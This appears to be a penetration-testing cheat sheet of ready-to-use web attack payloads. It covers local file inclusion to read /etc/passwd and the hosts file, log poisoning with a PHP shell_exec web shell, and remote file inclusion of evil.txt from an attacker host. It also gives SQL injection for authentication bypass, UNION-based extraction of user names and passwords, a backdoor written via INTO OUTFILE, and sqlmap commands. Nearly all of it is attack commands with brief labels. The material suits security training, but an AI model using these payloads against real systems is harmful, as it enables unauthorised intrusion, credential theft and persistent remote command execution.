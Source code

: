 LFI - Download passwords file with filter evasion
http://$ip/index.php?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd

Local File Inclusion - In versions of PHP below 5.3 we can terminate with null byte
GET /addguestbook.php?name=Haxor&comment=Merci!&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00

Contaminating Log Files <?php echo shell_exec($_GET['cmd']);?>

For a Remote File Inclusion look for php code that is not sanitized and passed to the PHP include function and the php.ini file must be configured to allow remote files /etc/php5/cgi/php.ini - “allow_url_fopen” and “allow_url_include both set to “on”
include($_REQUEST["file"].".php");

Remote File Inclusion
http://$ip/addguestbook.php?name=a&comment=b&LANG=http://$localip/evil.txt
<?php echo shell_exec("ipconfig");?>

Database Vulnerabilities
MySQL SQL

Grab password hashes from a web application mysql database called “Users” - once you have the MySQL root username and password
mysql -u root -p -h $ip
use "Users"
show tables;
select * from users;

Authentication Bypass
name='wronguser' or 1=1;#
name='wronguser' or 1=1 LIMIT 1;#

Enumerating the Database
http://$ip/comment.php?id=738’
Verbose error message?
http://$ip/comment.php?id=738 order by 1
http://$ip/comment.php?id=738 union all select 1,2,3,4,5,6
Determine MySQL Version:
http://$ip/comment.php?id=738 union all select 1,2,3,4,@@version,6
current user being used for the database connection
http://$ip/comment.php?id=738 union all select 1,2,3,4,user(),6
we can enumerate database tables and column structures
http://$ip/comment.php?id=738 union all select 1,2,3,4,table_name,6 FROM information_schema.tables
target the users table in the database
http://$ip/comment.php?id=738 union all select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name='users'
extract the name and password
http://$ip/comment.php?id=738 union select 1,2,3,4,concat(name,0x3a, password),6 FROM users
Create a backdoor
http://$ip/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'

SQLMap Examples

Crawl the links
sqlmap -u http://$ip --crawl=1
sqlmap -u http://meh.com --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3
SQLMap Search for databases against a suspected GET SQL Injection point ‘search’
sqlmap –u http://$ip/blog/index.php?search –dbs
